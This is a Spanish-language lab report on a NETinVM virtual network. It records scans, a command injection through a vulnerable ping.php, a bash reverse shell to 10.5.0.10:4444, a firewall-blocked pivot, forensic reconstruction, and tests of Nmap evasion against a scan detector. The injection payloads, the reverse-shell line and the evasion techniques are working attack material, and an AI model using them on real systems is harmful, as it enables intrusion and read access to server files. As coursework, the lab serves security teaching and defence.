



www-data y una reverse shell), se comprobó que el cortafuegos impide el
pivoting TCP DMZ→INT (segmentación efectiva), se reconstruyó cronológicamente el ataque a partir de capturas y logs, y se
evaluó un detector de escaneos frente a siete técnicas de evasión. El laboratorio demuestra tanto vías reales de compromiso como
la eficacia de la segmentación de red bien diseñada.NETinVM es una máquina virtual única (denominada base, Debian 12) que, mediante KVM/libvirt anidado,
levanta varias mini-máquinas y las conecta en tres redes separadas por un cortafuegos. El direccionamiento sigue el patrón
10.5.<RED>.<MÁQUINA>/24, con RED: 0=EXT, 1=DMZ, 2=INT; base=.1 y fw=.254 en cada red.
La imagen oficial (VMware, 22-jul-2025, SHA256 verificado) se ejecutó en VMware Workstation Pro sobre Windows 11 con la
virtualización anidada habilitada (Hyper-V/VBS desactivados). La imagen arranca de forma nativa en VMware (su disco está definido
sobre controladores SCSI/NVMe propios de VMware). Una vez en la base, las máquinas se levantan como dominios libvirt
(fw, exta, dmza, dmzb, inta) y las tres redes ext/dmz/int quedan activas. Todo el trabajo se realizó
desde la máquina exta (rol de atacante externo) y desde base (captura de tráfico).

Desde base se capturó el tráfico de la DMZ en la interfaz espejo mirror-dmz mientras exta
solicitaba http://www.example.net. La captura muestra el saludo TCP a tres vías completo y el intercambio
HTTP GET / → 200 OK servido por Apache.
# tcpdump -r p0_http.pcap (base, mirror-dmz) 10.5.0.10.45740 > 10.5.1.10.80: Flags [S] seq ... # SYN 10.5.1.10.80 > 10.5.0.10.45740: Flags [S.] seq ..., ack # SYN-ACK 10.5.0.10.45740 > 10.5.1.10.80: Flags [.] ack 1 # ACK (handshake completo) 10.5.0.10.45740 > 10.5.1.10.80: GET / HTTP/1.1 # peticion 10.5.1.10.80 > 10.5.0.10.45740: HTTP/1.1 200 OK # respuesta # tshark follow tcp.stream — contenido GET / HTTP/1.1 Host: www.example.net User-Agent: Wget/1.21.3 -- HTTP/1.1 200 OK Server: Apache/2.4.62 (Debian) Content-Type: text/html ... <title>Apache2 Debian Default Page: It works</title>
fw enruta y filtra, pero no aplica NAT entre zonas.| Escaneo | Resultado |
|---|---|
| Básico (1000 puertos) | 80/tcp open http · 443/tcp closed · 998 filtered |
Versión -sV | 80/tcp → Apache httpd 2.4.62 ((Debian)) |
SO -O | Linux (2.6–5.x) — coincide con Debian 12 (kernel 6.1) |
ACK scan -sA 80,81 | 80/tcp unfiltered · 81/tcp filtered → firewall con estado |
Todos los puertos -p- | Solo 80 open / 443 closed; 65533 filtered |
Desde exta (EXT) se realizó descubrimiento de hosts por zona, enumeración de servicios/versiones y verificación de
la alcanzabilidad de la red interna.
# nmap -sn por red EXT 10.5.0.0/24 → base .1, exta .10, fw .254 (3 hosts) DMZ 10.5.1.0/24 → dmza .10, dmzb .11 (2 hosts) INT 10.5.2.0/24 → 0 hosts up (bloqueado)
# nmap -Pn -p22,80,443 10.5.2.10 (inta) 22/tcp filtered ssh 80/tcp filtered http 443/tcp filtered https # traceroute EXT→INT: 1 10.5.0.254 (fw) → * * *
| Activo | IP | Servicio / versión | Exposición desde EXT | Riesgo | Justificación |
|---|---|---|---|---|---|
| dmza | 10.5.1.10 | HTTP — Apache 2.4.62 | Puerto 80 publicado | ALTO | Mayor superficie web; RCE demostrado (Punto 2) |
| dmzb | 10.5.1.11 | FTP — vsftpd 3.0.3 | Puertos 20/21 publicados | MEDIO | Servicio de datos; superficie de credenciales/config |
| fw | .254 | Router / filtro con estado | No expone servicios | CRÍTICO | Punto único de control de la segmentación |
| inta | 10.5.2.10 | SSH (interno) | No alcanzable | BAJO | Protegido por el firewall frente a EXT |
ping.php) desplegada en dmza, que concatena entrada del usuario sin sanear a una llamada
system("ping -c1 " . $_GET['ip']).# 1) Confirmacion de RCE (inyeccion con ';') $ curl "http://www.example.net/ping.php?ip=127.0.0.1;id" uid=33(www-data) gid=33(www-data) groups=33(www-data) $ curl "http://www.example.net/ping.php?ip=127.0.0.1;head -5 /etc/passwd" root:x:0:0:root:/root:/bin/bash ... # 2) Reverse shell: dmza → exta:4444 payload = 127.0.0.1;bash -c 'bash -i >& /dev/tcp/10.5.0.10/4444 0>&1'
=== reverse shell recibida desde 10.5.1.10:39512 === www-data@dmza:/var/www/html$ id uid=33(www-data) gid=33(www-data) groups=33(www-data) www-data@dmza:/var/www/html$ hostname dmza www-data@dmza:/var/www/html$ ip -br a eth-0 UP 10.5.1.10/24 www-data@dmza:/var/www/html$ uname -a Linux dmza 6.1.0-37-amd64 ... x86_64 GNU/Linux www-data@dmza:/var/www/html$ echo '=== COMPROMISO DMZA OK ==='

ping.php?ip=127.0.0.1;id → uid=33(www-data).www-data
en la DMZ: lectura de ficheros del servidor, manipulación del sitio web y, sobre todo, un punto de apoyo (foothold) desde el
cual intentar el movimiento lateral hacia la red interna (Punto 3). El origen de la reverse shell saliente (dmza→EXT:4444)
es posible porque el cortafuegos permite conexiones DMZ→EXT.Desde el equipo comprometido (dmza) se evaluó la posibilidad de alcanzar la red interna (INT, 10.5.2.0/24).
ping 10.5.2.10 (inta) → PING-OK ping 10.5.2.254 (fw) → PING-OK TCP 10.5.2.10:22 → cerrado/filtrado TCP 10.5.2.10:80 → cerrado/filtrado TCP 10.5.2.10:3306 → cerrado/filtrado
iptables -S)-P FORWARD DROP -A FORWARD -s 10.5.1.0/24 -o eth-ext -p tcp ... ACCEPT # DMZ→EXT -A FORWARD -s 10.5.1.0/24 -d 10.5.0.1 --dport 53 ACCEPT # DMZ→DNS -A FORWARD -p icmp --icmp-type 8 ... ACCEPT # ping global # (no existe regla DMZ 10.5.1.0/24 -> INT 10.5.2.0/24)

DROP. El ping sí funciona porque existe una regla global que acepta ICMP echo, pero
esto no habilita ninguna sesión útil. Conclusión: el pivoting desde una DMZ comprometida hacia la red interna está impedido por
diseño. Para endurecerlo aún más podría eliminarse el ICMP echo global entre DMZ e INT.Se capturó el tráfico en base (mirror-ext y mirror-dmz) mientras se reproducía un ataque
completo, y se correlacionó con los registros de Apache en dmza.
| Orden | Fase | Evidencia (pcap / log) |
|---|---|---|
| 1 | Reconocimiento | Ráfaga de SYN desde 10.5.0.10 hacia dmza (barrido Nmap de puertos) |
| 2 | Acceso inicial | GET /ping.php?ip=127.0.0.1;id → HTTP 200 (Apache access.log) |
| 3 | Explotación | GET /ping.php?ip=...;bash -c '...dev/tcp/10.5.0.10/4444...' |
| 4 | Reverse shell | Conexión TCP saliente 10.5.1.10 → 10.5.0.10:4444 (SYN/SYN-ACK/PSH) |
# tshark http.request (mirror-dmz) 07:50:25 10.5.0.10 → 10.5.1.10 http://www.example.net/ping.php?ip=127.0.0.1;id 07:50:26 10.5.0.10 → 10.5.1.10 .../ping.php?ip=127.0.0.1;bash%20-c%20'.../dev/tcp/10.5.0.10/4444...' # tshark tcp.port==4444 (mirror-ext) — reverse shell 07:50:26.298 10.5.1.10 → 10.5.0.10 : 4444 [SYN] 07:50:26.298 10.5.0.10 → 10.5.1.10 [SYN,ACK] # Apache access.log (dmza) 10.5.0.10 - - "GET /ping.php?ip=127.0.0.1;id HTTP/1.1" 200 557 "-" "curl/7.88.1"
| Tipo | Indicador |
|---|---|
| IP atacante | 10.5.0.10 (origen del escaneo, la inyección y el listener de la reverse shell) |
| Patrón de URL | ping.php?ip=...; (metacaracteres de shell ; | & $( ) en el parámetro) |
| Puerto de C2 | 4444/tcp (conexión saliente desde la DMZ) |
| User-Agent | curl/7.88.1, Nmap (herramientas de ataque) |
| Patrón de red | Ráfaga de SYN a puertos secuenciales desde una única IP |
base y los registros de los
nodos internos (deriva del reloj tras la reanudación de la VM). En un caso real esto obliga a normalizar husos/relojes antes de
correlacionar; aquí se usó el orden relativo de los eventos, internamente consistente en cada fuente.Detector de reconocimiento por umbral y ventana temporal, ejecutado en base sobre mirror-ext:
se cuentan los puertos destino distintos contactados por SYN desde una misma IP origen en una ventana de 12 s; si el
total supera UMBRAL = 50, se emite una alerta de posible escaneo.
| Técnica de escaneo | Puertos distintos (ventana 12 s) | IPs origen | ¿Detectado? | Comentario |
|---|---|---|---|---|
-T4 (control) | 1000 | 2 | SÍ | Ráfaga masiva de SYN |
-T1 (sneaky) | 0 | 1 | NO | ~15 s entre sondas → nada en la ventana |
-T0 --scan-delay 3s | 1 | 2 | NO | Muy lento: cae bajo el umbral |
--max-parallelism 1 | 46 | 2 | NO | Serializado: 46 < 50 (evade por poco) |
-D RND:10 (señuelos) | 1000 | 12 | SÍ | Se detecta el escaneo, pero el atacante real queda oculto entre 12 IPs |
-f (fragmentación) | 0 | 1 | NO | Evade el filtro BPF tcp[tcpflags] |
--source-port 53 | 1000 | 2 | SÍ | Solo cambia el puerto origen; no evade el conteo |
El detector por umbral/ventana es eficaz contra escaneos rápidos y ruidosos, pero se evade con: (a) escaneos lentos
(-T0/-T1, --scan-delay) que reparten las sondas fuera de la ventana; (b) fragmentación, que rompe la
coincidencia del filtro a nivel de paquete; y (c) señuelos, que no evitan la detección pero diluyen la atribución.
El compromiso clave es detección ↔ falsos positivos: bajar el umbral o alargar la ventana detecta escaneos lentos a costa de
más falsos positivos.
-f.Todos los ficheros de evidencia (salidas de comandos, capturas .pcap y reglas del cortafuegos) se
adjuntan en la carpeta evidencias/, organizados por punto:
p0/ (captura HTTP + Nmap), p1/ (descubrimiento y servicios), p2/ (RCE y reverse shell),
p3/ (pivoting y reglas del fw), p4/ (pcaps forenses y análisis), p5/ (resultados de evasión).